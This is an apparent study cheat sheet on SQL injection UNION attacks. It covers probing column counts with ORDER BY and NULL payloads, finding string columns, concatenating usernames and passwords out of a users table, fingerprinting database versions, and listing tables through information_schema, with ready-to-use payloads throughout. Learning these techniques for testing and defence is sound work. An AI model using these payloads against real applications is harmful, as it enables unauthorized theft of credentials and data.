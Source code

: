 # SQLi UNION attacks
* Same Number of Columns: 
  * The original query and the injected query must return the same number of columns. If the original query returns, for example, three columns, your injected query should also produce three columns.
* Compatible Data Types:
  * The data types of corresponding columns in the original and injected queries must be compatible. This ensures that the data from both queries can be successfully combined. For instance, if a column in the original query has text data, the corresponding column in the injected query should also have text data.
# How to determine the number of columns?
1. Inject an **ORDER BY** clause with different numeric values (column indices) until an error occurs.
   * Example: \
   `' ORDER BY 1-- ` \
   `' ORDER BY 2--`, etc. \
  Output: `The ORDER BY position number 3 is out of range of the number of items in the selected list`
2.  Employ a series of **UNION SELECT** payloads with varying numbers of null values to identify the correct number of columns in the result set.
    * Example: \
    `' UNION SELECT NULL --` \
    `' UNION SELECT NULL, NULL--`, etc. \
    Output: `All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`
    * The use of NULL values in the injected **SELECT** query is strategic. It ensures compatibility with various data types, maximizing the chances of success when the column count is correct. 
    * However, the application's response may vary, In case of nulls matches the number of columns, the database returns an additional row in the result set with null values in each column.
* **NOTE**: In the context of Oracle databases, it is a requirement that every **SELECT** query includes the **FROM** keyword and specifies a valid table. Fortunately, Oracle provides a built-in table called **dual**, which serves this purpose. Therefore, injected queris on Oracle db typically take the following form: \
` UNION SELECT NULL FROM DUAL--` \
Also it's important to note that on MySQL databases, the `--` comment sequence must be followed by a space. Alternatively, the `#` character can be used to identify a comment.
# How to identify columns in the original query that can hold string data?
#### Once the number of required columns is determined, each column is probed by submitting `UNION SELECT` payloads with string values.
* Example: If the original query returns four columns, \
`' UNION SELECT  'g', NULL, NULL, NULL--` \
`' UNION SELECT  NULL, 'g', NULL, NULL--` \
`' UNION SELECT  NULL, NULL, 'g', NULL--` \
`' UNION SELECT  NULL, NULL, NULL, 'g'--` 
* If a database error occurs, such as conversion error, it means that the column's data type is not compatible with string data.
# String concatenation
#### When a query only returns a single column, it's possible to retrieve multiple values by concatenating them together and even include a separator to distinguish the combined values
* Example: On postgres we could submit the following input \
`UNION SELECT username ||'~'|| password FROM users`
* Output : `admin~~1337`
#### The double-pipe sequence `||` is a string concatenation operator on Oracle and other databases and the '~' char is used to separate the data.
# Querying the database type and version
#### To potentially identify the database type and version, we can inject provider-specific queries to check their compatibility and determine if any of them yield results.
* Queries to determine the database version on different database types:
  *  Oracle: ` SELECT * from v$version`
  * PostgresSQL: ` SELECT version()`
  * Microsoft, MySQL: `SELECT @@version`
* Example: On MySQL \
` UNION SELECT @@version--` \
* Output: `8.0.36.0ubuntu0.20.04.1`
# Listing the contents of the database
#### In the realm of databases, many types (with the exception of Oracle) feature a collection of views known as the information schema. This schema serves as a valuable resource for retrieving details about the structure of the database.
* Example: For instance, one can use the following query to obtain a list of tables within the database 
  * `SELECT * FROM information_schema.tables`
* To delve deeper into the structure of individual tables, one can query `information_schema.columns` , specifying the desired table .
  * Example: `SELECT * FROM information_schema.columns WHERE table_name='Users'`


### Location of Injection
#### When a query retrieves multiple columns, the web application might only show certain ones on the page. If we inject our code into a column that isn't displayed, we won't see its result
#### To get the output we want, it's important to figure out which columns are actually shown on the page. 
* Example:
  * ` ' UNION SELECT 1, @version, 3, 4-- `
  * By displaying the version of the database we can test if we can query for actual data from the database, and not only just numbers.

##### **NOTE**: Using NULL it's the best option as it fits all data types